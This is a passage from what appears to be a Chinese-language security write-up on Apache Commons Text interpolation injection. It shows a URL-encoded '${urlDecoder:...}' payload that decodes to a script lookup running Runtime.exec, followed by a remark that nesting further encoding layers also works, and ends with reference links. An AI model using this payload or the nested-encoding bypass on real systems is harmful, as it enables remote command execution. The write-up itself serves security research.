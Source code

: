 ![image-20230107155231900](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071552001.png)

urlDecoder

```java
${urlDecoder:%24%7b%73%63%72%69%70%74%3a%6a%73%3a%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%7d}
```

![image-20230107155655319](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301071556427.png)

当然多套几层也是可以的

## 参考文章

[https://paper.seebug.org/2025/](https://paper.seebug.org/2025/)

[https://paper.seebug.org/1993/](https://paper.seebug.org/1993/)

[https://forum.butian.net/share/1973](https://forum.butian.net/share/1973)

[https://blog.csdn.net/qq_34101364/article/details/127338170](https://blog.csdn.net/qq_34101364/article/details/127338170)
